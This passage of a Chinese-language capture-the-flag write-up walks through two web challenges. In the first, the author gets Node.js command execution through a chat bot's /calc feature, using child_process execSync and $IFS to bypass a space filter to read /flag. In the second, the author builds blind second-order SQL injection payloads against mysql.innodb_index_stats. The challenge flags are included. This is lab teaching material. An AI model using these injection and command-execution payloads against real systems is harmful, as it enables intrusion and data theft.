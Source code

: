 flag`{`3ad4aaedf408c147d5f747f7ce76d2b4`}`

### <a name="header-n17"></a>checkin

进入是个聊天框，/name 改名字

/flag 会打印flag1flag1flag1….

/more 显示/flag – 小伙子…

/calc 可以计算，（猜测这里可能有命令执行）

[![](https://p5.ssl.qhimg.com/t01c07d61198ccbf3c5.png)](https://p5.ssl.qhimg.com/t01c07d61198ccbf3c5.png)

找到篇文章https://m.jb51.net/article/91411.htm`

于是试了试里面的payload：/calc require(‘child_process’).exec(‘ls’).toString()

返回了：血小板: [object Object]

然后试了试execSync：/calc require(‘child_process’).execSync(‘ls’).toString()

返回了：bin games include lib local sbin share src命令执行成功

于是读取flag：/calc require(‘child_process’).execSync(‘cat /flag’).toString()

返回：血小板: undefined

应该是空格的问题，那就用$IFS替代：/calc require(‘child_process’).execSync(‘cat$IFS/flag’).toString()

成功拿到flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t015673743622d5d679.png)

flag`{`0e4d1980ef6f8a81428f83e8e1c6e22b`}`

### <a name="header-n34"></a>Twice_Insert

刚开始还以为是原题，注册admin’#后改密码，然后用admin登录，发现并没有flag（可恶呢

但是，既然这个二次注入点还在，那仍然是可以被拿来利用的

在单引号和#中间就可以注入语句

各种fuzz后，发现很多函数都被waf了（smarter…harder…大概是有回显的盲注了）

最后，发现了这篇文章https://www.smi1e.top/sql%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t017ee419351442a907.png)

于是试着构造payload：

```
"admin' and ascii(substr((select group_concat(distinct database_name)from mysql.innodb_index_stats),1,1))=30###vanish"

"admin' and ascii(substr((select group_concat(distinct table_name)from mysql.innodb_index_stats),1,1))=30###vanish"
```
